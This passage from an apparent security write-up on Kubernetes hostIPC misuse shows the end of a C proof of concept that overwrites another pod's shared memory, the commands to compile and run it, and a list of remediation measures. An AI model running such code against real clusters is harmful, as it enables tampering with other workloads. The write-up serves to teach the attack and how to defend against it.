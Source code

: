         // Write a malicious payload to shared memory
        char payload[] = "MALICIOUS DATA";
        strncpy(shmaddr, payload, SHM_SIZE - 1); //Prevent buffer overflow
        shmaddr[SHM_SIZE - 1] = '\0';  // Null-terminate

        printf("Successfully wrote '%s' to shared memory (shmid=%d, key=0x%x)\n", payload, shmid, SHM_KEY);

        // Detach the shared memory segment
        if (shmdt(shmaddr) == -1) {
            perror("shmdt failed");
            exit(1);
        }
        return 0;
    }
    ```

    Compile and run it:

    ```bash
    apt-get update && apt-get install -y gcc
    gcc exploit.c -o exploit
    ./exploit
    ```

    This compiles and runs the exploit, overwriting the first part of the shared memory segment with "MALICIOUS DATA".  *This is a simplified example; a real exploit would require understanding the data structures in the shared memory segment and crafting a payload that achieves a specific goal (e.g., changing a configuration value, injecting code). This step is VERY application specific.*

    Expected Output:

    ```
    Successfully wrote 'MALICIOUS DATA' to shared memory (shmid=..., key=0xdeadbeef)
    ```

    **This completes the exploitation phase. At this point, the target application's behavior may be altered or compromised.**

## Remediation Recommendations

*   **Avoid `hostIPC: true`:**  Never use `hostIPC: true` unless absolutely necessary and with a thorough understanding of the security implications. If it's unavoidable, carefully restrict which pods are allowed to use it via Pod Security Admission or similar policies.
*   **Minimize Capabilities:**  Avoid granting pods unnecessary capabilities, especially `CAP_SYS_PTRACE`.  Use the principle of least privilege.
*   **Pod Security Admission (PSA)/Pod Security Policies (PSP):**  Enforce policies that prevent the deployment of pods with `hostIPC: true` or excessive capabilities.  PSA is the recommended modern approach for this.
*   **Network Segmentation:**  Use Kubernetes Network Policies to isolate pods and restrict communication between them.  This can limit the impact if one pod is compromised.
*   **Runtime Security:**  Implement runtime security solutions (e.g., Falco, Aqua Security, Sysdig) that monitor system calls and network activity for suspicious behavior, such as processes attempting to access IPC resources of other pods.
*   **Regular Vulnerability Scanning:**  Regularly scan container images and Kubernetes deployments for vulnerabilities, including misconfigurations that could lead to IPC namespace abuse.
*   **Container Runtime Security:**  Keep the container runtime (Docker, containerd) updated with the latest security patches.
*   **Application-Level Security:**  Implement strong application-level security measures, such as input validation and output encoding, to mitigate the impact of code injection attacks.
*   **Monitor IPC Usage:** Implement monitoring to detect unusual IPC activity within your pods. This can help detect malicious activity early.
